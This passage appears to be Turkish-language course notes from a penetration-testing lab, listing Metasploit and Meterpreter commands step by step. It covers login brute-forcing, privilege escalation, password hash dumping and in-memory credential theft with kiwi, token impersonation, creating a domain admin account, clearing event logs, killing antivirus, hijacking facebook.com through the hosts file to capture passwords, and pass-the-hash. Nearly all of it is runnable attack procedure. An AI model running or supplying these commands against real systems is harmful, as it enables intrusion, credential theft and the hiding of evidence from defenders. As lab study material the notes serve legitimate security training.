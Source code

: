   - `set USER_FILE /home/sacrum/userlist`
  - `set THREADS 10`
  -  `set STOP_ON_SUCCESS true` başarılı olduğunda dur.
  -  ![resim](https://user-images.githubusercontent.com/63648396/147677706-a496792a-2ef5-4bd6-8dd6-09724252c669.png)
  -  `run`
  -  `search psexec`
  -  ![resim](https://user-images.githubusercontent.com/63648396/147677851-7f035859-e7b3-4e26-9312-19ad91af4548.png)
  -  _medusa, hydra_ gibi araçları da araştır.

# POST EXPLOIT # 
  - `sysinfo` sistem hakkında bilgi
  - `getuid` ben kimim
  - `getsystem` en yüksek yetkilendirmeye ben geçebiliyor muyum?
  - `getuid` server username: NT AUTHORITY\SYSTEM
  - `shell` 
  - `netusers` kullanıcılar,
  - `exit` shell'den meterpretere geri döndük 
  - `hashdump` kullanıcı hashleri, bunları alıp bir yerde sakla _pass the hash saldırıları_ için kullanılabilir
  - `migrate -N lsass.exe` 
  -  `load kiwi` RAM'DEN PAROLA ÇEKTİK - alternatifi _mimikatz_
  -  `creds_all`
    - bir şey çıkmadı ama çıkadabilirdi.
    - ![resim](https://user-images.githubusercontent.com/63648396/147678625-7727be12-362a-4ae5-8bed-5fc024c8c480.png)
  - `load incognito` hedefteki tokenlara bakılabilir
    - `list_tokens -u`
    - `impersonate_token BTKAKADEMI\\Administrator` yazarak tokenleri üstümüze alabiliriz.
    - aldıktan sonra tekrar `shell` diyebiliriz.
  - `net user CK Passwd123! /add /domain` Passwd123! parolaydı. token yetkisi devam ediyorsa komutu çalıştırabiliriz.
  - `net group 'Domain Admins' CK /add /domain` artık tüm networkte sınırsız yetkisi olan bir CK kullanıcısı var.
  - `getsystem`
  - `screenshot`
  - `upload /home/sacrum/ck.php C:\\`
  - `download C:\\ck.php /tmp/` 
  - `run post` post exploitler
  - `run post/windows/gather/enum_applications` makinede yüklü olan uygulamalar
  - `run post/windows/gather/enum_domain` domainleri getiriyor.
  - `run post/windows/gather/credentials/` çift tab yapıp neler olduğuna baktık
  - meterpreter içinde `help`
  - `clearev` tüm logları siliyor
  - `run post/windows/manage/killav` 
  - `run post/windows/manage/enable_rdp`
  - `run hostsedit -e 7.7.7.7,facebook.com` kullanıcı adı parola girince direkt bize gelecek.

# PASS THE HASH & CME #
  - `hashdump` sonuçlarını aldık
  - `nano hashlist` içerisine yapıştırdık.
  - `cat hashlist | cut -d ":" -f 3,4 > hashlist2` hashi ayıkladık
  - meterpreterden çıktık `background` ile
  - `search smb_login`
    - `use 0`
    - `set PASS_FILE /home/sacrum/hashlist2`
    - `options` 
    - ![resim](https://user-images.githubusercontent.com/63648396/147686276-a7bbe9d7-f97c-4519-b19a-b0f3ed96a86a.png)
    - `set RHOSTS 192.168.1.150`